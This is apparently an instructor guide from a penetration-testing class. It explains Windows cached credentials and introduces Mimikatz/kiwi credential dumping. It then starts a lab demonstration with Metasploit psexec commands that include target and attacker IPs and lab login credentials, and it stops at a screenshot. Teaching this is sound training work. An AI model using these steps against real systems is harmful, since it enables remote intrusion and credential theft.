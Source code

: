 According to Windows, each unique user's logon information is cached locally so that in the event that a DC is unavailable during subsequent logon attempts, they are able to log on. The cached logon information is stored from the previous logon session.

- Even as SYSTEM, viewing the contents of the registry key would not yield any decipherable hash, as the passwords are hashed *and* salted using a hashing algorithm called **MsCacheV2**. However, we will use tools that are able to decrypt the contents. 

#### Mimikatz and Kiwi

Introduce Mimikatz and Kiwi by covering the following:

- **Mimikatz** is a Windows-purposed credential dumping tool that is able to decrypt almost all stored credentials in Windows.
- It is outside the scope of our class to go into details on how Mimikatz works.
- For our class, we will use the Metasploit version of Mimikatz called **kiwi**. 
- Note, this tool is called `kiwi` in Metasploit because the creator of Mimikatz, Benjamin Delpy, goes by the handle GentleKiwi.

Explain to the class that we will now conduct a demonstration on how to use kiwi. 

#### Mimikatz Demonstration

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module: `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	 ![A screenshot depicts the results of the command.](Images/psexecoptions.PNG)
	